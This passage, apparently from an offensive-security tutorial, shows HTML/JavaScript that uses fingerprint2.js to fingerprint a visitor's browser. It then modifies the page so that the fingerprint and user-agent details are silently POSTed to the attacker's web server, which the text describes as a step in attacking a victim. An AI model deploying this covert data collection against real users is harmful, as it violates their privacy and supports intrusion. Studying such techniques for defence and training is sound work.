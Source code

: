 ```bash
            var obj = components[index];
            var value = obj.value;
	          if (value !== null) {
              var line = obj.key + " = " + value.toString().substr(0, 150);
              details += line + "<br />";
	          }
          }
        }
        document.querySelector("#details").innerHTML = details 
        document.querySelector("#fp").textContent = murmur 
        document.querySelector("#time").textContent = timeString
      });
  </script>
</body>
</html>
```

When the web page is visited, it invokes the Javascript library, returning the browser User Agent string. This string can be passed to an online user agent database to identify the browser version and operating system.

While this information is what we want, in application, this will display the information to the victim instead of the attacker, so we need a way to transfer this information to our attacking web server.

We do this with a few lines of Ajax code - the modified version of the web page is here:
```html
<!doctype html>
<html>
<head>
  <title>Blank Page</title>
</head>
<body>
  <h1>You have been given the finger!</h1>
  <script src="fingerprint2.js"></script>
  <script>
      var d1 = new Date();
      var options = {};
      Fingerprint2.get(options, function (components) {
        var values = components.map(function (component) { return component.value })
        var murmur = Fingerprint2.x64hash128(values.join(''), 31)
	      var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
        var d2 = new Date();
        var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
        var details = "Detailed information: \n";
        if(typeof window.console !== "undefined") {
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
	          if (value !== null) {
              var line = obj.key + " = " + value.toString().substr(0, 150);
              details += line + "\n";
	          }
          }
        }
        var xmlhttp = new XMLHttpRequest();
        xmlhttp.open("POST", "/fingerprint/js.php");
        xmlhttp.setRequestHeader("Content-Type", "application/txt");
        xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>
```